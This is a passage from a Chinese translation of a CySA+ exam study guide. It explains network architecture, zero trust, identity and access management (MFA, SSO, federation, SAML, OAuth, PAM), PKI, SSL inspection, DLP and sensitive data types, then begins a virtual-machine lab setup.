图 2.2 展示了一个分段网络的示例，其中安全设备后有一个受保护的网络，通过到`jump box`的`VPN`连接允许访问该受保护的分段。



**图 2.2** 简单的分段网络

### 软件定义网络

`Software-defined networking`（`SDN`）使网络变得可编程。使用`SDN`，你可以对网络进行集中控制，比传统的物理网络基础设施更智能地管理网络资源和流量。软件定义网络通过类似`OpenFlow`的`APIs`（应用程序编程接口）提供信息和控制，这意味着可以跨不同的硬件和软件供应商进行网络监控和管理。

由于`SDN`允许通过`APIs`进行控制，因此`API`安全性以及安全代码开发实践都是`SDN`实施中的重要要素。

除了组织内部控制的`SDN`实现外，软件定义网络广域网（`SDN-WANs`）是一种由`SDN`驱动的服务模型，提供商使用`SDN`技术来提供网络服务。它们允许使用混合架构，这些架构在后台可能结合多种技术，以向客户提供网络连接。`SDN-WAN`的实现通常提供加密，但也引入了风险，包括`SDN`编排平台的漏洞、与多供应商网络路径和控制相关的风险，以及流量流经多条路径时的可用性和完整性风险。

### 零信任

现代安全架构设计中的一个主要概念是`zero trust`（零信任）。`zero trust`概念消除了以往置于安全边界内部的系统、服务和个人的信任。在`zero trust`环境中，每个被请求并允许的操作在执行之前都必须经过验证和确认。

`zero trust`不再将强边界作为主要的安全层，而是进一步向深层次的分层安全模型演进，其中单个设备、应用程序以及用户账户都是安全设计的一部分。随着边界变得越来越难以定义，`zero trust`设计变得更加常见，以应对现代组织所处的安全环境。

实施`zero trust`设计需要技术、流程和策略的结合，以管理、监控、评估和维护一个复杂的环境。

### 安全访问边缘

`Secure access service edge`（`SASE`，读作“sassy”）是一种网络架构设计，它利用软件定义广域网（`SD-WAN`）和安全功能，如云访问安全代理（`CASBs`）、`zero trust`、防火墙即服务、反恶意软件工具或其他能力来保护你的网络。该概念侧重于确保终端和网络层的安全，假设组织是去中心化的，且以数据中心为中心的模型在当前组织中用处有限。

## 身份与访问管理

`Identities`（身份），或关于个人或账户持有者由一方提供给另一方（如服务提供商、应用程序或系统）的一系列声明陈述，是身份验证、授权和计费的关键部分。我们用于登录的用户账户需要能够唯一识别个人和其他`subjects`（主体，如服务），以便将权限、权利、组组成和属性与他们关联。

与`identity`关联的属性包括关于`subject`的信息，通常包括他们的姓名、地址、职位、联系信息以及关于该个人的其他详细信息。这些属性可能作为身份验证过程的一部分，可能用于填充`directory`信息，或者可以被收集以帮助满足其他组织需求或业务目的。

`Identities`被用于身份验证、授权和计费（`AAA`）框架，用于控制对计算机、网络和服务的访问。身份系统提供许多常见功能：身份创建和管理、身份验证和授权，以及在某些情况下在本组织之外进行身份联合。`CySA+`考试目标重点关注你需要了解的少数特定技术：多因素身份验证、单点登录、无密码、联合、特权访问管理和云访问安全代理。

### 多因素身份验证 (MFA)

用于验证用户最重要的安全措施之一是`multifactor authentication`（`MFA`）。`MFA`依赖于两个或多个不同的身份验证因素，例如密码、令牌或智能卡、生物识别因素，甚至是个人进行身份验证的地点。它的一个关键部分是因素应该是不同的；两个密码无法构成有效的`MFA`方案。

`MFA`依赖于几种常见的身份验证因素或方法：

- `Knowledge factors`（知识因素）：你所知的。密码和短语是最常见的知识因素，但身份验证系统也使用你可能的数据。例如根据组织拥有的你的个人数据构建问题，如你目前的房贷还款额、十年前的居住地或其他你知道但别人不太可能知道的事情。
- `Possession factors`（持有因素）：你拥有的。最常见的例子是身份验证器应用程序、安全令牌和智能卡。图 2.3 展示了`Google Authenticator`应用程序的示例，这是一种基于手机的一次性密码生成器工具。在使用此类令牌时，拥有提供代码的应用程序就是持有因素。
- `Biometric factors`（生物识别因素）：你固有的特征。它们包括指纹、视网膜扫描、声纹以及许多其他测量人体特征的方法。
- `Location factors`（位置因素）的使用频率较低，依赖于物理位置，该位置取决于系统或网络所在的位置，或者通过使用 `GPS` 或其他数据验证你处于一个受信任或被允许访问系统的地方。

MFA（多因素身份验证）有助于防止攻击者使用窃取的凭据进行身份验证，因为它让攻击者同时拥有用户账户验证所需的两个（或更多！）因素的可能性大大降低。如果攻击者成功通过网络钓鱼获取了密码或实施了成功的暴力破解密码攻击，他们可能无法访问该个人的手机或令牌，也无法访问指纹等生物识别因素。

这种安全优势意味着，对于比简单密码更高安全要求的系统和服务，MFA 越来越多地被视为默认安全控制措施。主要的电子商务、银行、社交网络和其他服务供应商现在都提供了双因子身份验证（2FA）功能，并且越来越多的供应商默认要求使用该功能。这并不意味着 MFA 是完美的；手机或令牌丢失、交付第二个因素的方法不安全，或者允许用户通过联系支持人员来绕过第二个因素的备份访问方法，都可能导致多因素系统的失效。

### 无密码

`Passwordless`（无密码）身份验证允许用户无需密码即可登录。在大多数实现中，这意味着用户输入用户名或用户 ID，然后使用 `USB token`、身份验证器应用程序或其他设备。与 MFA 不同，无密码身份验证通常依赖于一个设计得更安全的单一因素。

### 单点登录 (SSO)

许多 Web 应用依赖 `single sign-on (SSO)`（单点登录）系统，允许用户身份验证一次后即可使用多个系统或服务，而无需使用不同的用户名或密码。`Shared authentication`（共享身份验证）方案与单点登录类似，允许身份在多个站点上重用，同时通过单一身份提供者进行身份验证。与 SSO 系统不同，共享身份验证系统要求用户在验证每个站点时输入凭据。

常见的 SSO 技术包括 `Lightweight Directory Access Protocol (LDAP)`（轻量级目录访问协议）和 `Central Authentication Service (CAS)`（中央认证服务）。共享身份验证技术包括：

- `OpenID`：一种去中心化认证的开源标准。OpenID 被 Google、Amazon 和 Microsoft 等主流网站广泛使用。用户在 Google 等身份提供者处创建凭据；然后网站（依赖方）使用该身份。
- `OAuth`：一种开放授权标准。OAuth 被 Google、Microsoft、Facebook 和其他网站使用，允许用户在通过原始身份提供者身份验证的同时，共享其身份元素或账户信息。OAuth 依赖于 `access tokens`（访问令牌），令牌由授权服务器发放，然后由客户端提交给资源服务器（如第三方 Web 应用）。
- `OpenID Connect` 是使用 `OAuth` 协议构建的身份验证层。
- `Facebook Connect`（也称为 Facebook 登录）是一种依赖 Facebook 凭据进行身份验证的共享身份验证系统。

SSO 最显著的安全优势之一是减少密码重复使用的发生概率。这可能也会降低用户在重用凭据集时，通过第三方网站泄露凭据的可能性。此外，SSO 的流行还由于它通过减少重置密码和支持电话来可能节省成本。

共享身份验证系统具有某些优点，允许用户使用自己的凭据而无需在每个站点上创建新账户，从而减轻密码疲劳。此外，用户通常会被告知将发布给依赖方的数据类型，例如电子邮件账户、联系信息、性别或其他个人信息。共享身份验证系统并不一定提供单点登录体验。

当然，SSO 系统也会产生风险——由于 SSO 使得访问多个系统和服务变得更容易，它使得获得凭据的攻击者更容易访问它们。一旦攻击者控制了用户的浏览器或系统，SSO 还可能让攻击者更容易利用额外的系统，因为用户不需要再次登录。这可以通过对关键系统要求重新身份验证以及使用双因子身份验证来部分缓解。尽管 SSO 确实带来了危险，但由于其所创造的易用性，它是大多数组织最常用的解决方案。

### 联邦身份

身份联邦化（federate identity）的能力——即在多个身份管理系统之间链接身份及其相关属性的过程——已变得普遍。这意味着 `federation`（联邦化）如今被广泛应用于云服务和组织。如果你使用 Microsoft、Google、Facebook 或 LinkedIn 账户访问并非由这些服务提供商托管的网站，你可能已经见过或使用过联邦身份系统。每个站点都允许第三方站点使用他们的凭据以及一组属性。

### 联邦身份的安全考量

联邦身份将信任边界移动到你所在组织之外，这导致在设计、实施或使用联邦身份时产生新的关注点。这导致需要从三个角度来看待联邦安全：

- 作为 `identity provider (IDP)`（身份提供者），`federation` 的成员必须提供身份，向依赖方做出关于这些身份的断言，并向依赖方发布有关身份持有者的信息。身份和相关数据必须保持安全。身份（有时包括属性）必须验证到符合联邦需求的水平，并可能对其发布应用用户层级的控制。此外，由于其在联邦中的角色，服务提供商可能负责为联邦提供事件响应协调、联邦成员之间的通信或其他任务。
- 作为 `relying party (RP)`（依赖方）或 `service provider (SP)`（服务提供商），`federation` 的成员必须为联邦的成员提供服务，并应安全地处理来自用户和身份提供者的数据。
- 联邦服务的 `consumer`（消费者）或用户可能被要求对属性发布做出决策，并向 IDP 提供有关其身份声明的验证信息。

这些角色每一个都出现在图 2.4 中，该图显示了联邦身份工作所需的信任关系和认证流示例。



图 2.4 联邦身份分级设计

### 联邦身份设计选择

使用联邦身份会产生新的安全设计关注点，你需要对这些进行规划和设计。如果你打算利用联邦身份，第一个要回答的问题是你想与联邦身份提供者使用什么样的信任模型。常见的联邦身份提供者包括 Google、LinkedIn 和 Amazon，但也存在广泛的商业和私有联邦，包括政府和高等教育机构运营的联邦。

如果你使用 Google 等现有的联邦身份提供者，你可能希望消费者自带自己的身份，然后你在内部将其映射到你自己的权限和权利结构中。这种模型假设你不关心用户是否真的是他们所声称的身份——你只关心他们是否拥有正在使用的账户。

在依赖可验证身份的联合模型中，需要对用户的身份主张提供更高水平的保证，这要求联合身份提供者与依赖方之间存在额外的信任。示例包括研究联合体，它们在联合内部的多个身份提供者之间有身份审查和断言要求。

信任决策还将影响组织关于手动配置（provisioning）与自动配置及去配置（deprovisioning）的决策。当与第三方联合身份服务集成时，如果是在用户请求访问时进行配置，并在联合身份通过验证后立即进行账户配置，其工作效果是最好的。手动配置通过允许额外的监督来提供更高的安全性，但可能会导致用户访问的延迟。

配置还可能涉及属性发布（attribute release），因为联合中的依赖方需要有关用户账户的一些基本信息，以提供授权并联系用户。身份提供者发布的信息量可能不相同，从可能包含所有账户相关数据的完整属性发布，到非常有限的发布（如图 2.5 所示的请求）。

图 2.5 显示了 `LoginRadius.com` 的属性发布请求示例，该网站支持通过 LinkedIn 和 Google 为其用户提供联合身份。每种技术的实现决策将各不相同，但数据处理、存储和属性发布的设计要求都是非常重要的。


FIGURE 2.5 `LoginRadius.com` 的属性发布请求


一旦你确定了你打算用于联合身份的身份所对应的适宜信任要求，你将必须采用它们所使用的底层技术，或者选择符合你需求的技术。如果你是在对自己的组织进行联合，而不是使用像 LinkedIn 或 Google 这样的联合身份提供者，这一点尤为 true。诸诸如安全断言标记语言（`SAML`）、`OAuth`、`OpenID Connect` 和 `Facebook Connect` 等技术都可能是你可能采用的解决方案的一部分。

你打算实施的联合类型也会影响你对从联合成员（包括身份提供者和依赖方）处预期或可能要求的安全要求。在像使用 Google 账号的站点这种松散的联合中，Google 账号的底层安全模型并不是主要的关注点，因为任何 Google 账号的所有者通常可以使用与 Google 联合的服务。

在需要较高信任级别的联合中，对身份提供者和依赖方的安全实践进行审查是必要的。身份提供者必须验证其其支持的用户的身份，必须保护其凭据库的安全，并且应该对于可能影响联合成员的安全问题建立强有的处理和通知流程。依赖方需要确保其凭据处理得到了妥善保护，并确保满足联合提出的任何安全或操作要求。

## 联合身份技术

四种主要技术构成了当前联合身份的核心：`SAML`、`AD FS`、`OAuth` 和 `OpenID Connect`。这些技术为身份提供者提供了与服务提供者安全集成的方法，而无需了解服务提供者如何实现其服务或其如何使用身份。

表 2.3 对了 `SAML`、`OpenID`、`OAuth2` 和 `AD FS`，包括它们对授权和认证的支持、一些最常见的潜在安全风险以及它们通常的使用方式。

TABLE 2.3 联合身份技术比较

| | | SAML | OpenID | OAuth2 | AD FS |
| --- | --- | --- | --- | --- | --- |
| **授权** | 是 | 否 | 是 | 是 |
| **认证** | 是 | 是 | 部分 | 是 |
| **潜在安全风险** | 消息机密性、协议使用风险、拒绝服务 | 重定向攻击、消息机密性、重放攻击、CSRF 攻击、钓鱼攻击、资源伪造 | 令牌攻击（重放） | |
| **常见用途** | 认证和授权，特别是在 Linux 环境 | 认证 | 认证和授权，特别是在 Windows 环境 | |

### SAML

`SAML` 是一种基于 XML 的语言，用于在身份提供者和服务提供者之间传递认证和授权数据。它经常用于 Web 应用程序和服务的单点登录，因为 `SAML` 允许身份提供者对服务提供者做出断言，以便它们做出决策。

图 2.6 显示了一个非常简单的 SAML 认证流程。在此流程中，用户尝试使用 SAML 认证的服务并被重定向到身份提供者进行身份验证。登录成功后，浏览器向依赖方返回适当的 SAML 响应，对其进行验证。在完成这些步骤后，用户现在可以使用他们最初应用程序。



FIGURE 2.6 简单的 SAML 事务

### AD FS

Active Directory Federation Services (AD FS) 是微软对联合的解决方案。`ADFS` 将认证和身份信息作为属性提供给第三方合作伙伴站点。合作伙伴站点随后使用信任策略将属性与服务支持的属性进行匹配，然后使用这些属性做出授权决策。

`ADFS` 使用与 `OAuth` 认证过程类似的流程：

1. 用户尝试访问由资源合作伙伴托管的启用了 ADFS 的 Web 应用程序。
2. 合作伙伴 Web 服务器上的 ADFS Web 代理检查 ADFS Cookie；如果存在，则授予访问。如果 Cookie 不存在，用户将被发送到合作伙伴的 ADFS 服务器。
3. 资源合作伙伴的 ADFS 检查来自账户合作伙伴的 SAML 令牌，如果未找到，ADFS 将执行主域发现（home realm discovery）。
4. 主域发现识别与用户相关的联合服务器，然后通过该主域对用户进行认证。
5. 账户合作伙伴随后提供属性形式的安全令牌，并将用户发送回资源合作伙伴的 ADFS 服务器。
6. 随后正常进行验证并使用其信任策略将账户合作伙伴属性映射到 Web 应用程序支持的属性。
7. ADFS 创建包含资源合作伙伴属性的新 SAML 令牌，并将 Cookie 存储在用户的计算机上。然后用户被重定向到 Web 应用程序，应用程序可以读取 Cookie 并允许属性支持的访问。

### OAuth

OAuth 2.0 协议提供了一个授权框架，旨在允许第三方访问基于 HTTP 的服务。它由互联网工程任务组（IETF）开发，支持 Web 客户端、桌面设备、移动设备以及广泛的其他嵌入式和移动技术，以及它们连接的服务提供者。OAuth 提供了访问委托功能，允许服务提供者代表你执行操作。

OAuth 流程涉及四个方参与：

* `Clients`（客户端）：用户想要使用的应用程序
* `Resource Owners`（资源所有者）：终端用户
* `Resource Servers`（资源服务器）：由资源所有者希望应用程序使用的服务所提供的服务器
* `Authorization Servers`（授权服务器）：由身份提供者拥有的服务器

图 2.7 显示了认证流如何与 OAuth 一工作。在这一链中，客户端尝试访问第三方服务。作为消费者的第三方网站被重定向到服务提供者进行身份验证。为了请求身份验证，消费者发送一个获取请求令牌（request token）的请求。服务提供者验证用户身份，授予请求令牌，然后将消费者重定向回服务提供者。在那里，服务提供者获得用户授权并将用户发送到第三方网站。消费者请求访问令牌（access token），服务提供者授予令牌，然后消费者就可以访问资源。



`FIGURE 2.7` OAuth 认证过程

### OpenID Connect

OpenID Connect 通常与 OAuth 配对使用以提供认证。它允许授权服务器在提供 OAuth 授权令牌之外额外发布 ID 令牌（ID token）。这使得服务能够知道该操作已获得授权，并且用户已通过身份提供者身份验证。

### 特权访问管理 (PAM)

`特权访问管理`（`PAM`）描述了一系列技术和实践，用于管理和保护组织内部的系统、用户和应用程序的特权账户、访问和权限。PAM 依赖于最小权限原则——即应该授予完成任务或角色所需的最少权限。

特权账户不仅是 root、admin 或类似的账户（尽管这些是超级用户账户常见的示例，因此通常是人们首先想到的特权账户）。其他示例还包括服务账户、应用程序账户、本地和域管理员账户、用于处理密码更改或其他类似特权任务的帮助台账户，以及有时被称为“断路”（break glass）的紧急访问账户。在某些情况下，用户账户也可能赋予特定的特权访问，需要对这些账户进行特权访问管理。

PAM 有助于解决许多常见问题，包括权限过度配置、生命周期管理以及由于用户更换工作和角色而保留权限导致的权限蔓延、嵌入式或硬编码凭据的使用以及类似的问题。

虽然 CySA+ 考试目标涵盖的许多 IAM 概念侧关注认证，但 PAM 侧关注权限和生命周期管理，为凭据和权限随时间推移的使用提供了更广泛的视角。

### 云访问安全网关 (CASB)

另一种云安全工具是云访问安全网关（`CASB`）。CASB 工具是策略执行点，可以存在于本地或云端，并且在使用云资源和服务时强制执行安全策略。CASB 可以帮助于数据安全、反恶意软件功能、服务使用情况和访问可见性以及风险管理。正如你对强大工具的预期那样，CASB 可以非常有帮助，但需要仔细的配置和持续的维护。

## 加密与敏感数据保护

加密和哈希对于我们讨论过的每一层中的许多控制措施都是至关重要的。它们在网络安全、主机安全和数据安全中发挥作用，并嵌入在每一层依赖的许多应用程序和系统中。

这意味着使用当前的安全的加密技术并确保进行适当的密钥管理对于分层安全设计至关重要。在审查安全设计时，识别何时加密（以及哈希）、如何使用，以及加密密钥及其密码是如何存储的，是非常重要的。了解数据何时被加密以及何时未加密也很重要——安全设计可能会失败，因为安全发送的经过加密的数据可能未加密并存储在缓存中或由本地用户处理，从而消除了其在传输过程中依赖的保护。

### 公钥基础设施 (PKI)

`公钥基础设施`（PKI）用于发布加密证书，这些证书用于加密、用户和服务身份验证、代码签名和其他目的。PKI 依赖非对称加密来提供机密性、完整性并验证用户或实体确实为其声称的身份。

基本的 PKI 证书请求和颁发流程如图 2.8 所示。



`FIGURE 2.8` PKI 证书请求过程

五个主要组件如下：

* 证书颁发机构 (CA)，负责创建、存储和签名证书
* 注册机构 (RA)，负责验证请求证书的实体确实为其声称的身份
* 存储密钥的目录 (directory)
* 支持访问和交付证书的证书管理系统
* 证书策略 (certificate policy)，规定 PKI 使用的实践和程序，并用于验证 PKI 的信誉

PKI 的另一个关键概念是证书撤销。证书包含各种信息，包括 `CRL` 或证书撤销列表的位置。`CRL` 允许证书颁发机构在证书过期前由于破解或取消而使其失效。这有助于确保不再受信任的证书可以被撤销。

### 安全套层 (SSL) 检查

正如你在第 7 章“分析漏洞扫描”中所学习到的，安全套层（SSL）协议及其继任传输层安全（TLS）用于加密许多类型的网络流量。虽然你最可能看到它们用于加密到 Web 服务器的连接，但 `TLS` 也用于许多地方。

当然，加密流量意味着无法观察、监控和分析它。这就是 `SSL 检查`设备和技术发挥用场的地方。`SSL 检查` 要求插入监控设备进行离线分析，或者通过拦截 HTTPS 或其他 `TLS` 连接，在检查设备或系统中终止连接，然后将连接传递给原始目的地。这允许中间系统在检查流量的同时，保持连接两端的流量加密状态。

由于 `TLS` 依赖证书建立信任，使用此类设备需要组织内的系统信任该证书；否则连接将显示错误或安全问题。

由于 SSL 检查通常在在使用之前需要额外的努力和设置，因此在某些情况下，管理员可能无法控制设备，或者带宽或其他限制可能产生问题的情况下，它并不总是实用的。由于它暴露了本应加密的流量，如果攻击者或恶意内部人员能够访问 SSL 检查系统或服务，他们也将获得查看并可能修改流量的机会。

### 数据泄露防护 (DLP)

`数据泄露防护 (DLP)` 系统和软件旨在保护数据不离开其应被包含的组织或系统。一个完整的 `DLP` 系统针对传输中的数据、静态存储的数据和使用中的数据，以及可能访问或存储数据的端点系统。`DLP` 依赖于识别应受保护的数据，然后检测泄露何时发生，当系统之间和跨网络频繁使用加密技术时，这可能是具有挑战性的。这意味着 `DLP` 安装结合了终端软件以及各种让网络流量对 `DLP` 系统可见的手段。

### 个人身份信息 (PII)

`个人身份信息 (PII)` 是是指任何可以通过直接或间接方法合理地识别出个人的任何信息。`PII` 的常见示例包括财务和医疗记录、地址和电话号码，以及美国的国家或州身份号码，如`社会安全号码`、`护照号码`和`驾照号码`。

### 持卡人数据 (CHD)

`持卡人数据`(`CHD`) 是信用卡信息，包括主账户号 (`PAN`)、持卡人姓名和有效期。被称为敏感身份验证数据的额外信息包括 `CVV` 或卡片验证码、磁条和芯片中包含的数据，以及如果使用了 `PIN 码`（密码码）。`CHD` 通常根据支付卡行业协会的 `PCI DSS` 标准被称为 `PCI 数据`。

## 总结

理解系统和网络架构概念及设计是安全专业人员的一项重要技能。利用设计概念并识别安全问题可能发生位置的能力可以帮助组织变得更加安全。

现代基础设施通常涉及虚拟化元素，这允许虚拟计算机在物理硬件上运行。容器化变得越来越普遍，许多组织正努力将应用程序和服务迁移到容器中，因为它们是轻级且易于迁移的，非常适合云环境。同时，越来越多的服务和应用程序正在被构建以利用无服务器计算，即它们以函数的形式存在，而不是运行应用程序或系统。

操作系统安全仍然是组织的优先考虑事项。系统加固限制了其攻击面，是成熟组织正常系统管理实践的一部分。`Windows` 系统的加固利用了多种技术，包括保护 `Windows 注册表`。分析师还需要了解配置文件的常见位置、系统进程是什么，以及硬件架构如何影响系统可以运行以及恶意软件如何影响它们。

日志记录允许安全分析师和管理员审查系统或服务上发生的情况。日志分析依赖于关联日志的能力，使得时间同步对于审查至关重要。未进行正确时间同步的日志可能会对发生的情况和时间产生错误或误解。同时，可能需要正确设置日志级别，以在收集的信息量所需的细节之间取得平衡。

安全从业人员需要考虑本地、云和混合网络。通过 `VLANs`、`防火墙`甚至物理隔离等工具和技术进行网络分有助于控制风险。软件定义网络允许通过代码控制网络，使其在不进行物理更改的情况下具有灵活且可管理的。零信任和 `SASE` 都是现代网络中的重要设计概念。

## 考试要点

**解释基础设施概念和设计。** 描述`无服务器`、`虚拟化`和`容器化`概念，它们通常在何时以及为何使用，以及它们之间有什么不同。

**理解操作系统概念。** 解释系统加固，并理解系统加固在组织安全实践中的作用。描述 `Windows 注册表`，以及为什么它作为操作系统安全的一部分非常重要。了解 `Windows` 和 `Linux` 等常用操作系统的常见文件结构信息和配置文件位置。描述系统进程。理解硬件架构在系统安全中的作用。

**理解日志记录的关键操作要素。** 解释为什么时间同步对日志分析至关重要，以及如何实现同步。描述日志级别以及为什么选择合适的日志级别非常重要。

**解释网络架构概念和技术。** 描述本地、云和混合网络之间的相似之处和差异，以及每种模型的安全关注点。理解网络分段并解释为什么它有用以及如何实现它。描述软件定义网络、零信任和安全访问边缘技术及设计。

**理解身份和访问管理。** 解释多因素身份验证，包括身份验证因子。描述无密码认证。理解单点登录及其在组织中的作用。解释联邦以及联邦身份如何工作。了解特权访问管理 (`PAM`) 和云访问安全代理（ (`CASBs`) 作为身份基础设施的一部分的作用和用途。

描述如何使用加密来保护敏感数据。解释公钥基础结构（PKI）及其常见组件。理解 SSL 检查、其用途和缺点。解释如何使用数据泄露防护（DLP）以及有效实施所需的所需的条件。描述敏感数据，并了解个人身份信息（PII）与持卡人数据（CHD）之间的区别。

## 实验练习

### 活动 2.1：为实验设置虚拟机

在本次练习中，你将设置一个供后续实验使用的虚拟机。如果你已经有了 VMware Workstation、VMware Player 或 VirtualBox，可以跳过本次练习的第一部分。

### 第 1 部分：下载 VMware Player

1. 访问 `www.vmware.com/products/workstation-player.html`。
2. 下载 VMware Workstation Player。
3. 安装 VMware Player。

